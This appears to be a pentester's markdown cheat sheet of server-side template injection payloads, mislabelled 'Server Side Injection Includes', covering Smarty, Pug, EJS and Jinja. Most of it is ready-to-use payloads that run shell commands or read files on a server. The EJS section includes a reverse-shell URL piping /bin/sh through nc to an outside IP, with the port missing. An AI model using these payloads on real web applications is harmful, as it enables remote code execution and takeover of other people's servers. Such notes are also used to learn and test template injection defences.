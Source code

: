 # Server Side Injection Includes

## PHP Smarty
```php
{system("ls")}
```

## NodeJS Pug
Otherwise known as JADE.

Basic test:
```js
#{7*7}
```

Exploitation:
```js
#{root.process.mainModule.require('child_process').spawnSync('ls').stdout}

#{root.process.mainModule.require('child_process').spawnSync('cat', ["filename.txt"]).stdout}
```

## EJS
This works by passing an unrestricted render option via the `view options` parameter of `renderFile` which makes it possible to inject code into `outputFunctionName`.

Reverse Shell:
```sh
http://site.com/page?id=2&settings[view options][outputFunctionName]=x;return process.mainModule.require('child_process').execSync('rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.125.40');s
```

## Python Jinja
Test:
```py
{{7*7}}
```

Payload:
```py
{{"".__class__.__mro__[1].__subclasses__()[157].__repr__.__globals__.get("__builtins__").get("__import__")("subprocess").check_output("ls")}}
```

| CMD | Description |
| --- | ----------- |
| `"".__class__.__mro__[1]` | Access base object class |
| `__subclasses__()` | List all subclasses of object |
| `[157]` | Index for `subprocess.Popen` (changes) | 
| `__repr__.globals..` | Chains dynmaically import and uses `subprocess` module to execute `ls` |

